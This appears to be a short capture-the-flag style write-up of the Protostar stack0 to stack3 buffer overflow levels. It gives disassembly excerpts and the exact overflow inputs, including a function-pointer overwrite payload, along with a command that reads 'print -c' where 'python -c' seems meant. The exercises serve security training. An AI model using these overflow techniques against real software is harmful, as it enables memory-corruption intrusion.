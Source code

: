 ##Stack0
from disassemble we notice that

```
lea eax, dword [local_1ch]
...
test eax, eax
je 0x8048427
```

so `modified` is stored as `eax` in stack
and we need try to overwrite this `eax`
as the address of `eax` is just after `buffer` in stack
so we just need input a string like `"A" * 64`

##Stack1
just like `stack0` just this time we need change modified to `0x61626364` which is `dcba` 
so the input is `'a'*64+'dcba'`

##Stack2
same as before just need set environment variable `GREENIE` with hex`0x0a0d0a0d`
so `export GREENIE=$'A..(64)\x0a\x0d\x0a\x0d'` this `$` is important here

##Stack3
still easy, we want the `win` function be called, which just need rewrite the `fp`
so use `gdb` to get the address of `win`(or just use r2 haha which I used)
```
> aaaa
> afl
```
then we get the `win` address is `0x08048424`
so just `print -c "print 'A'*64 + '\x24\x84\x04\x08'" | ./stack3`
